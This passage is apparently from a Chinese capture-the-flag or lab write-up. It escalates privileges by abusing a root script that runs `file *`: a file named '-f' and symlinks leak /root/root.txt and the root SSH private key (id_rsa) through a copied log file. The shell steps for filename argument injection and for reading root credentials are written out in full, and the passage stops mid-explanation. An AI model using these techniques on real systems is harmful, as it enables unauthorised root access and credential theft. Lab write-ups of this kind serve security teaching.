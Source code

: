<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302351.png" alt="image-20240404021130725" style="zoom:50%;" />

### 方法一：读取flag

`-f`可以用于提取文件内容，我们尝试构造一下，使`file *`执行`file -f`，然后做一个动态链接，读取flag。

还有一个要点在于，这上面这个`sos.sh`中间命令过长，有充分时间让我们进行备份，而不用竞争。

```bash
# cassius1
cd /home/cassius
touch -- '-f'      # -- 实际上代表touch的参数到此为止，移交控制权，后面都是名词
ln -s /root/root.txt root
# cassius2
while :;do cp /opt/sos/logs/output-logs.txt /tmp/root.txt 2>/dev/null;done  # 持续备份
# cassius1
chmod 755 user.txt    # 更改权限，触发请求
# 等15s左右
# cassius2
^Z
cd /tmp
head root.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302352.png" alt="image-20240404022639020" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302353.png" alt="image-20240404022639020" style="zoom:50%;" />

中间急了，没等程序跑完。。。

```apl
19ed17ba1da85521ce659aeeb5ecd751
```

### 方法二：获取root rsa

```bash
# cassius1
cd /home/cassius
touch -- '-f'      # -- 实际上代表touch的参数到此为止，移交控制权，后面都是名词
ln -s /root/.ssh/id_rsa id_rsa
# cassius2
while :;do cp /opt/sos/logs/output-logs.txt /tmp/root.txt 2>/dev/null;done  # 持续备份
# cassius1
chmod 755 user.txt    # 更改权限，触发请求
# 等15s左右
# cassius2
^Z
cd /tmp
cat root.txt
```

改一下即可：
